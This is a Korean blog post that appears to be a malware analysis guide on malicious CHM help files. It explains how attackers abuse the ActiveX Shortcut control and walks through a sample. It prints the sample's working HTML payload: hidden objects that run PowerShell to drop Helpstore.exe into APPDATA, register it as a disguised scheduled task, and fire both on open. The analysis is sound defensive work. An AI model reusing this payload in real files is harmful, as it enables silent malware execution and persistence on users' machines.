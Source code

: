 ```yaml
---
title: '📑 "CHM", Malware Analysis'
date: 2024-12-08 21:00:00 +0900
categories: [Malware Analysis Guide]
tags: [malware_analysis_guide, chm]
render_with_liquid: false
---
```




CHM 파일(Compiled HTML Help File)은 도움말 파일이라고도 불리며, Microsoft에서 개발한 파일 형식으로 HTML 문서와 관련 리소스를 하나의 파일로 압축하여 저장한 파일입니다. 공격자는 CHM 파일이 ActiveX를 지원하는 것을 악용하여, 단순히 CHM 파일을 오픈하는 것만으로 사용자의 간섭없이 악성코드를 실행합니다.



## <mark>0. CHM 파일</mark>

CHM 파일은 일반적으로 윈도우 도움말에 활용되는 파일입니다. 공격자는 해당 부분을 악용하여 마치 정상 파일처럼 위장하여 악성코드를 실행하게 만듭니다.

<img src="../images/2024-12-08-CHM-Malware-Analysis/IMG-chm 분석-20240911174428810-1733664241224-1.png" alt="IMG-chm 분석-20240911174428810" style="zoom:80%;" />

CHM 파일을 실행하게 되면, hh.exe라는 microsoft html help executable program을 사용하여 실행되게 됩니다.

<img src="../images/2024-12-08-CHM-Malware-Analysis/IMG-chm 분석-20240911174711040-1733664261923-5.png" alt="IMG-chm 분석-20240911174711040" style="zoom:80%;" />

<img src="../images/2024-12-08-CHM-Malware-Analysis/IMG-chm 분석-20240911174737407-1733664268659-7.png" alt="IMG-chm 분석-20240911174737407" style="zoom:67%;" />

HTML 문서와 리소스가 하나의 파일로 압축되어 있기 때문에 압축 해제를 통해 파일 내부를 확인할 수 있습니다. 내부에 의심스러운 파일이 존재하는지, 존재하는 HTML 파일 내에 ActiveX 관련 코드가 존재하는지 확인할 필요가 있습니다.

<img src="../images/2024-12-08-CHM-Malware-Analysis/IMG-chm 분석-20240911174511185-1733664278673-9.png" alt="IMG-chm 분석-20240911174511185" style="zoom: 80%;" />



## <mark>1. ActiveX Shortcut</mark>

ActiveX Shortcut Command는 지정된 작업의 Shortcut을 생성합니다. 여기서 중요한 속성은 Item1으로 실행 파일에 대한 경로와 매개변수를 지정할 수 있습니다. 공격자는 해당 속성에 명령어를 삽입하여 악성 행위를 수행합니다.

> 🔗[About ActiveX Shortcut Command](https://documentation.help/HTML-Help-ActiveX/ocx_shortcut.htm)

| **Property**                                                 | **Description**                                              |
| ------------------------------------------------------------ | ------------------------------------------------------------ |
| [Button](https://documentation.help/HTML-Help-ActiveX/ocx_pbutton.htm) | Specifies the button style. Optional.                        |
| [Command](https://documentation.help/HTML-Help-ActiveX/ocx_pcommand.htm) | Calls the **Shortcut** command.                              |
| [Font](https://documentation.help/HTML-Help-ActiveX/ocx_pfont.htm) | Specifies the font attributes. Optional.                     |
| [Item1](https://documentation.help/HTML-Help-ActiveX/ocx_pitem.htm) | Specifies the file path to the executable file (.exe) for the program, and any parameters to be sent to the program. These values are delimited by a comma. HTML Help does not support `%WINDIR%` or other system variables in the file path. |
| [Item2](https://documentation.help/HTML-Help-ActiveX/ocx_pitem.htm) | Specifies the message ID of a standard Windows message, a *wPARAM* value, and a *lPARAM* value. These values are delimited by a comma. |
| [Text](https://documentation.help/HTML-Help-ActiveX/ocx_ptext.htm) | Specifies the link text. Optional.                           |



## <mark>2. 악성 CHM 샘플 분석</mark>

### ■ <u>파일 내부 확인</u>

압축 해제를 통해 CHM 파일 내부를 확인하여 의심스러운 파일이 존재하는지 확인합니다. 샘플에서는 Helpstore.exe 라는 실행 파일이 확인되었습니다.

<img src="../images/2024-12-08-CHM-Malware-Analysis/IMG-chm 분석-20240911174149846-1733664290193-11.png" alt="IMG-chm 분석-20240911174149846" style="zoom:80%;" />

해당 파일을 PPEE, pestudio를 사용해 확인해보니 의심스러운 리소스가 확인되었습니다.

<img src="../images/2024-12-08-CHM-Malware-Analysis/IMG-chm 분석-20240911175412249-1733664311365-13.png" alt="IMG-chm 분석-20240911175412249" style="zoom:67%;" />



### ■ <u>HTML 파일 확인</u>

CHM 파일을 실행하게 되면, 내부에 존재하는 HTML 파일들이 실행되게 되기 때문에 내부에 악성 스크립트가 존재하는지 확인할 필요가 있습니다. 샘플 내부에는 index.html 파일이 존재했고 코드를 확인해보니 ActiveX ShortCut 명령어가 확인되었습니다.

<img src="../images/2024-12-08-CHM-Malware-Analysis/image-20241208230607334.png" alt="image-20241208230607334" style="zoom:80%;" />

### ■ <u>ActiveX ShortCut 분석</u>

공격자는 **CLSID_HHCtrl Object = {adb880a6-d8ff-11cf-9377-00aa003b7a11}**를 사용해 HHCtrl Object를 생성하여 ActiveX Shortcut을 사용합니다. Item1 속성을 확인해보니, Helpstore.exe를 드롭하고 schtasks를 사용하여 스케줄러에 등록하는 cmd 명령어가 발견되었습니다.

```html
<OBJECT id =qjswc classid="clsid:adb880a6-d8ff-11cf-9377-00aa003b7a11" width=1 height=1 style="display:none;">
	<PARAM name = "Command" value = "ShortCut">
	<PARAM name = "Button" value = "Bitmap::shortcut">
	<PARAM name = "Item1" value = ',cmd.exe,/c start /min /b powershell.exe -command "If (Test-Path \"$env:TEMP\") { Get-ChildItem \"$env:TEMP\" -File | Where-Object { $_.Length -eq 1596928 } | ForEach-Object { Copy-Item -Path $_.FullName -Destination \"$env:APPDATA\\Helpstore.exe\" -Force } }"'>
</OBJECT>

<OBJECT id=oheam classid="clsid:adb880a6-d8ff-11cf-9377-00aa003b7a11" width=100 height=100 style="display:none;">
	<PARAM name="Command" value="ShortCut">
	<PARAM name="Button" value="Bitmap::shortcut">
	<PARAM name="Item1" value=',cmd.exe,/c start /min /b powershell.exe -WindowStyle Hidden -Command "schtasks /create /tn \"MicrosoftEdgeUpdateTask\" /tr \"%APPDATA%\Helpstore.exe\" /sc ONCE /st (Get-Date).AddMinutes(1).ToString(\"HH:mm\")"'>
</OBJECT>
```

악성 CHM 파일은 생성된 HHCtrl Object의 Click 메서드를 사용하여, CHM 파일을 실행하게 되면 지정한 명령이 실행되게 코딩되어 있습니다.

```html
<script>
	qjswc.Click();
	oheam.Click();
</script>
```
